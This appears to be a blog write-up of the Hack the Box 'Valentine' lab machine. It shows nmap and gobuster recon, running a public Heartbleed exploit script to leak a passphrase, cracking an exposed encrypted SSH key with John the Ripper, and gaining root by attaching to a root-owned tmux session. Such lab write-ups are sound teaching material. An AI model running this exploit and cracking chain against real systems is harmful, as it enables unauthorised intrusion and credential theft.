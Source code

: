 ```yaml
---
layout: post
current: post
cover: assets/images/posts/2018/07/valentine-writeup/valentine-banner.jpg
navigation: True
title: 'Valentine Writeup'
date: 2018-07-27
tags: ctf
class: post-template
subclass: 'post'
author: christoffer
---
```

> Heartbleeds and dirty cows, i feel sorry for the creator!

Connecting to Hack the Box[^1] using the supplied VPN, my Valentine box have the IP: 10.10.10.79
As per usual, lets start with Recon and NMAP the target IP

```
root@kali:~/Valentine$ nmap -p- --version-all -sV -sS 10.10.10.79
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-02 22:27 CET
Nmap scan report for 10.10.10.79
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT      STATE  SERVICE   VERSION
22/tcp    open   ssh       OpenSSH 5.9p1 Debian 5ubuntu1.10
80/tcp    open   http      Apache httpd 2.2.22 ((Ubuntu))
443/tcp   open   ssl/http  Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.78 seconds
```
 
So we are dealing with some kind of webserver.
The root directory of the address is only displaying an image on both webports (80/443), next step would be trying to enumerate directories!  
 
![Valentine root image](assets/images/posts/2018/07/valentine-writeup/omg-1.jpg)  

I usually use the tool "gobuster" to enumerate webdirectories with a wordlist, and point it to Burpsuite Proxy. That way, any link or directory that gobuster finds, will Burpsuite automatically spider as well as record in its console.  
So lets point gobuster towards the webserver and let it run in the background. 

```
root@kali:~/Valentine$ gobuster -u http://10.10.10.79 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -p 127.0.0.1:8080 -x php
```

Now sticking with the theme Valentine, the image is referencing the exploit Heartbleed[^2] which targets SSL (port 443). its also available on ExploitDB, therefor there's a local variant in kali. You might though have to run this a couple times to get the data that's relevant.

```
root@kali:~/Valentine$ searchsploit heartbleed
root@kali:~/Valentine$ cp /usr/share/exploitdb/exploits/multiple/remote/32764.py .
root@kali:~/Valentine$ python 32764.py 10.10.10.79 > heartbleed.txt
root@kali:~/Valentine$ cat heartbleed.txt
[..snip..]
00f0: 01 00 00 00 10 00 0E 00 00 0B 31 30 2E 31 30 2E ..........10.10.
0100: 31 30 2E 37 39 6F 6E 2F 78 2D 77 77 77 2D 66 6F 10.79on/x-www-fo
0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43 rm-urlencoded..C
0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34 ontent-Length: 4
0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63 2....$text=aGVhc
0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64 nRibGVlZGJlbGlld
0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 43 mV0aGVoeXBlCg==C
0160: 05 16 1F AC BA A4 D1 E0 45 10 F2 B0 B6 9E 4B 30 ........E.....K0
0170: 01 06 7D 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C ..}.............
0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
[..snip..]
```

Now that $text parameter in the response looks like a base64 encoded string.  
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==

```
root@kali:~/Valentine$ echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
heartbleedbelievethehype
```

Lets save that to the notes and pop back to see what the result of gobuster is up to.

```
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.79/
[+] Threads      : 200
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 302,307,200,204,301
[+] Proxy        : 127.0.0.1:8080
[+] Extensions   : .php
=====================================================
/index (Status: 200)
/index.php (Status: 200)
/dev (Status: 301)
/encode (Status: 200)
/encode.php (Status: 200)
/decode (Status: 200)
/decode.php (Status: 200)
/omg (Status: 200)
=====================================================
```

So encode and decode just seems to be two php functions that does what they say to base64 strings. They didn't seems that vulnerable to command injections either. But /dev looks interesting , browsing to that reveals two files.  

![Valentine_Slash_dev](assets/images/posts/2018/07/valentine-writeup/Valentine_Slash_dev.png)  

Taking a peek at notes.txt shows a checklist.

```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

The file hype_key contains an ASCII encoded SSH Private Key, so download that and pipe it to xxd.

```
root@kali:~/Valentine$ cat hype_key | xxd -r -p > rsa.encrypted
root@kali:~/Valentine$ cat rsa.encrypted
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
[..super snip..]
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

According to Proc-Type its encrypted, so next step would be to decrypt it using JohnTheRipper!  
First lets create a JTR compatible file to crack, then remembering the decoded base64 string before, might be the password.

```
root@kali:~/Valentine$ ssh2john rsa.encrypted > rsa.john
root@kali:~/Valentine$ echo "heartbleedbelievethehype" | john --stdin rsa.johnssh
```

That should successfully crack the Private Key!  
Now we only need to change the permissions and try to connect, what we're missing is the username to connect with, but reading the private keys filename "hype_key", we can always try "hype".

```
root@kali:~/Valentine$ chmod 0600 rsa.encrypted
root@kali:~/Valentine$ ssh -i rsa.encrypted hype@10.10.10.79
Enter passphrase for key 'rsa.encrypted': heartbleedbelievethehype
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)
New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$
```

So that takes care of the initial shell, now lets enumerate the system and see what we can find out to Privilege Escalate to root!  
G0tmi1k[^3] Has a really good cheat sheets in how to enumerate linux systems!  
So lets do some basic things.

```
hype@Valentine:~$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

So having a kernel means that it might be vulnerable to the Dirtycow[^4] exploit.  
But generally using such exploit is frowned upon since it might crash the box and ruin the day for other people.  
So lets continue enumerating and hope we find something else.

```
hype@Valentine:~$ history
.....snip....
8 ls -la
9 tmux -L dev_sess
10 tmux a -t dev_sess
11 tmux --help
12 tmux -S /.devs/dev_sess
13 exit
.....snip....
```

Now running history shows that there's a tmux session (item 12) hype connected to, and running `ps -aux` to check all running processes also shows that the tmux session is running as root.  
Lets connect to the same session.

```
hype@Valentine:~$ !12
root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
```

Done!

[^1]: [www.hackthebox.eu](www.hackthebox.eu)
[^2]: [www.heartbleed.com](http://heartbleed.com/)
[^3]: [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[^4]: [www.dirtycow.ninja](https://dirtycow.ninja)

